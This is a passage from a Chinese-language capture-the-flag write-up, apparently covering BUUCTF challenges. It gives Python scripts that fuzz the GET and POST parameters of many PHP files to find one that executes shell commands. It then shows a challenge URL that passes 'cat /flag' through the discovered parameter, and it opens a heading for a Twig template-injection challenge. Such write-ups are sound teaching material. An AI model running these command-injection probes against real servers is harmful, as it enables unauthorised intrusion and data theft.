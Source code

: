 ```python
        # print(getParams, postParams)
        req(filename, getParams, postParams)
```

先把每个文件里的 get post 参数匹配出来, 然后全部一次性提交试一遍, 找出来文件是什么

跑了大概三四分钟, 显示的是`xk0SzyKwfzw.php`

然后再把这个文件单独拿出来, 用另一个脚本跑, 这次挨个挨个试看是哪一个参数引起的命令执行

```python
import re
import requests

url = 'http://127.0.0.1/src/xk0SzyKwfzw.php'

with open('xk0SzyKwfzw.php', 'r') as f:
    text = f.read()

getParams = re.findall(r"\$\_GET\['(.*?)'\]", text)
postParams = re.findall(r"\$\_POST\['(.*?)'\]", text)

for get in getParams:
    params = {get : 'echo XZXZTEST'}
    res = requests.get(url, params=params)
    if 'XZXZTEST' in res.text:
        print('get',params)

for post in postParams:
    data = {post: 'echo XZXZTEST'}
    res = requests.post(url, data=data)
    if 'XZXZTEST' in res.text:
        print('post',data)
```

跑出来结果是 `Efa5BVG` 这个参数

最后在题目网站里访问查看 flag

```
http://322b2b43-4388-4229-ac9a-4ae3a393ed7a.node4.buuoj.cn:81/xk0SzyKwfzw.php?Efa5BVG=cat /flag
```

 ![](assets/202208262311461-170074459625571.png)

页面爆了 Warning, 也可以利用这个思路把 assert 对应的参数试出来, 方法不止一种

## [BJDCTF2020]Cookie is so stable（SSTI,twig）

flag.php 处输入用户名
